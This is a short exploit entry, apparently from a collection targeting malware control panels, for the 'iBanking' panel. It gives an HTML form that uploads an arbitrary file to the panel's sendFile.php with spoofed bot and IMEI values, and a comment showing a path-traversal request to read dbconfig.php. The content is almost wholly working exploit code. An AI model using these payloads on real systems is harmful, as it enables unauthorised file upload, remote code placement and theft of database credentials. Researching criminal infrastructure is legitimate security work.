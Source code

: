 #### iBanking


Type: Panel Upload Vulnerability

Author: [Xylitol](https://twitter.com/Xylit0l)
```
<!-- iBanking panel upload vulnerability -->
<!-- get.php?p=..&i=.&f=dbconfig.php -->
<form method="POST" action="http://localhost/smsbot/sendFile.php" enctype="multipart/form-data">
FiLEZ: <input type="file" name="uploadedfile" /><br />
<input type="hidden" name="bot_id" value="500" />
<input type="hidden" name="imei" value="000000000000000" />
<input type="submit" value="Pwn" />
</form>
```
